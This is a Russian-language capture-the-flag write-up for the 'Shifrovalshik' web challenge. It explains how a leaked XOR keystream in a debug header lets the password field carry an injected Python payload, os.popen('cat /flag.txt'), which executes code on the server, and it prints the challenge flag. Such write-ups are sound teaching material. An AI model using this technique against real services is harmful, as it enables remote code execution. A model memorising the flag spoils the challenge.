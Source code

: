 # Shifrovalshik

***Описание***: Администратор, опасаясь утечки своего ценного кода, разработал систему защиты, но кажется в ней что-то не так, посмотришь?

Ссылка: `http://localhost:5000`

Формат: EclipseCTF{...}

---

***Решение***:

Переходим в браузер, на `http://localhost:5000`

![ScreenShot](screenshots/shifrovalshik-1.png)

Нам необходимо ввести пароль. Пробуем:

![ScreenShot](screenshots/shifrovalshik-2.png)

Смотрим код и замечаем генерацию пароля для администратора:

```python
from utils import obf  
key, outcode = obf()  
print("ADMIN PASSWORD: ", key)
```

Посмотрим функцию `obf`:

```python
def obf():
    key = ''.join(secrets.choice(string.ascii_letters + string.digits) for i in range(len(code)))
    out_code = [chr(ord(a) ^ ord(b)) for a,b in zip(key,code)]
    os.remove("code.txt")
    return key, out_code
```

При запуске создается файл `code.txt` с кодом, а затем делается XOR с рандомной строкой длиной кода. Имея заголовок `debug`, мы можем сделать XOR с нашим кодом

```python
resp.headers['debug'] = "".join(outcode).encode().hex()
```

![ScreenShot](screenshots/shifrovalshik-3.png)

Делаем XOR где в виде ключа будет содержимое `debug`, а в тексте необходимый нам код (для примера чтение флага):

```python
__import__('os').popen("cat /flag.txt").read()
```

```
https://cyberchef.org/#recipe=XOR(%7B'option':'Hex','string':'xxx'%7D,'Standard',false)URL_Encode(true)&input=X19pbXBvcnRfXygnb3MnKS5wb3BlbigiY2F0IC9mbGFnLnR4dCIpLnJlYWQoKQ
```

![ScreenShot](screenshots/shifrovalshik-4.png)

Вставляем полученную строку в GET  параметр `password` и получаем флаг

![ScreenShot](screenshots/shifrovalshik-5.png)

---

***Флаг***: `EclipseCTF{Th1s_Pa$$w0rD_1S_f0R_Rc6}`